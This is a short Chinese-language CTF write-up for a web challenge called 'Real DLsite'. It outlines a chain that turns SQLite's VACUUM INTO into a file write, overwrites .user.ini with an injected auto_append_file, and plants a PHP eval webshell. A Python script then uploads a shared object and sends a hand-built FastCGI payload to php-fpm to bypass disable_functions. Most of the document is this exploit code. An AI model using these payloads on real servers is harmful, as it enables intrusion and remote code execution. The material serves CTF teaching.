

# 【 ? 】Real DLsite

本题在 CTF Web 题中也算比较难的类型，并没有让大家做出来的打算。算是让大家见识见识吧。

对不起各位，wp 忘记存了！只能在这里简单地复述一下：

首先可以进到管理界面，任意执行单行 SQLite3 表达式。

这时候需要用到一个新的特性，VACUUM INTO 可以将当前数据库 dump 一份到目标文件，相当于内容有限制的任意写。

而题目环境中仅有一个关键文件 .user.ini 是可写的。

结合 PHP 对 ini 解析的松散型，可以在数据库里插入包含 ```\r\n``` 的表，后面跟个 # 注释，只要前边不包含 [ 或 ( 这种关键字符，php 就可以正常解析，注入一个 auto_append_file，等到五分钟 cache 过期后拿到 webshell 。

```sqlite
DROP TABLE CONFIG;
CREATE TABLE `%0d%0aauto_append_file = "/var/www/html/db.sqlite" ; <?php @eval($_REQUEST[0]); ?>` (ID INT);
VACUUM main INTO '/var/www/html/.user.ini';
CREATE TABLE CONFIG (NAME VARCHAR, TYPE VARCHAR, VALUE VARCHAR);
```



然后绕过 disable_functions 直接打 fpm 就行：

```python
import requests, base64

URL = 'http://IP:PORT/view?p=/doc'

with open('preload.so', 'rb') as f:
    preload = f.read()

params = {'0': 'file_put_contents("/tmp/preload.so", hex2bin("'+preload.hex()+'"));'}
res = requests.post(URL, data=params)
print(res.status_code)

# Generated by fpm.py
payload = b'\x01\x01\x9f\x9c\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04\x9f\x9c\x02g\x00\x00\x11\x0bGATEWAY_INTERFACEFastCGI/1.0\x0e\x04REQUEST_METHODPOST\x0f\x15SCRIPT_FILENAME/var/www/html/inc.php\x0b\x15SCRIPT_NAME/var/www/html/inc.php\x0c\x00QUERY_STRING\x0b\x15REQUEST_URI/var/www/html/inc.php\r\x01DOCUMENT_ROOT/\x0f\x0eSERVER_SOFTWAREphp/fcgiclient\x0b\tREMOTE_ADDR127.0.0.1\x0b\x04REMOTE_PORT9985\x0b\tSERVER_ADDR127.0.0.1\x0b\x02SERVER_PORT80\x0b\tSERVER_NAMElocalhost\x0f\x08SERVER_PROTOCOLHTTP/1.1\x0c\x10CONTENT_TYPEapplication/text\x0e\x02CONTENT_LENGTH19\t\x1fPHP_VALUEauto_prepend_file = php://input\x0f\x80\x00\x00\xa5PHP_ADMIN_VALUEallow_url_include = On\nextension_dir = /tmp\nextension = preload.so\ndisable_classes =\ndisable_functions =\nopen_basedir = /\ndisplay_errors = On\nerror_reporting = E_ALL\x01\x04\x9f\x9c\x00\x00\x00\x00\x01\x05\x9f\x9c\x00\x13\x00\x00<?php phpinfo(); ?>\x01\x05\x9f\x9c\x00\x00\x00\x00'

params = {'0': '''echo "START";
$fp = fsockopen("127.0.0.1", 9000);
fwrite($fp, PAYLOAD);
while (!feof($fp)) echo fgets($fp, 1024);
fclose($fp);
echo "END";'''.replace('PAYLOAD', 'base64_decode("'+base64.b64encode(payload).decode()+'")')}

res = requests.get(URL, params=params)
print(res.text.partition('START')[2].partition('END')[0])
```


